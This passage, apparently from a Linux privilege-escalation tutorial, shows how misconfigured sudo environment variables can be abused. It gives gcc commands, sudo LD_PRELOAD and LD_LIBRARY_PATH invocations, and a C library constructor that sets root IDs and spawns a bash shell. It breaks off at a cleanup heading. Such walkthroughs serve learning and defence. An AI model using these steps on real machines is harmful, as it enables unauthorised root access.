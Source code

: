 Most probably you'll compile the exploit as a x86-64 (64-bit) architecture. If you're targeting x86 (32-bit) Linux systems then you have to specify the `-m` flag either if it's `-m32` or `-m64`. You'll know right away when using the `file` command to check ELF binary architecture is based off.

`user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Execute the LD_PRELOAD via sudo with any of the environment variables that has `(root) NOPASSWD`

```
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/bin/vim

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so /usr/sbin/apache2

user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff503ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f048506b000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0484e47000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0484c0d000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f04849f1000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0484685000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0484480000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0484278000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0484041000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0483e3c000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0483c14000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0485528000)
```

We know that it's using `libcrypt.so.1 => /lib/libcrypt.so.1` if you don't know what it does do a bit of research with a help of internet and see who you can exploit the `sudo` environment.

```
user@debian:~$ cat library_path.c
#include <stdio.h>  
#include <stdlib.h>  
  
static void hijack() __attribute__((constructor));  
  
void hijack() {  
        unsetenv("LD_LIBRARY_PATH");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}
```

`user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c`

**Note:** Sometimes when you tried to get a reverse shell via netcat it's best to specify the full path of the binary

Execute the LD_LIBRARY_PATH via `sudo` to get root

`user@debian:~$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2`

#### 1.5.3 - Cleanup
